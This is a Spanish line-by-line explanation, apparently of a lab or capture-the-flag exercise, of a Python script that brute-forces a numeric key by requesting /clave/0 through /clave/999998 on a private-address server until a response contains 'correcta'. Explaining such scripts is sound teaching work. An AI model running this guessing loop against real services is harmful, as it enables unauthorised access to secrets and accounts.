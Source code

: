 Este script envía peticiones HTTP a un endpoint con sufijos numéricos para detectar cuándo la respuesta contiene la palabra "correcta". En resumen: prueba muchos números uno por uno y para cuando encuentra la respuesta esperada.

import requests — importa la librería para hacer peticiones HTTP.

for i in range(999999): — recorre los números del 0 al 999998.

url = "http://10.41.131.169:5000/clave/" + str(i) — construye la URL añadiendo el número actual.

response = requests.get(url) — envía una petición GET a esa URL y guarda la respuesta.

print(url) — muestra en consola la URL que se acaba de consultar.

if " correcta" in response.text: — comprueba si la respuesta contiene la cadena " correcta".

print("\t" + response.text) — si la contiene, imprime la respuesta (la “clave” encontrada).

break — termina el bucle al encontrar la coincidencia.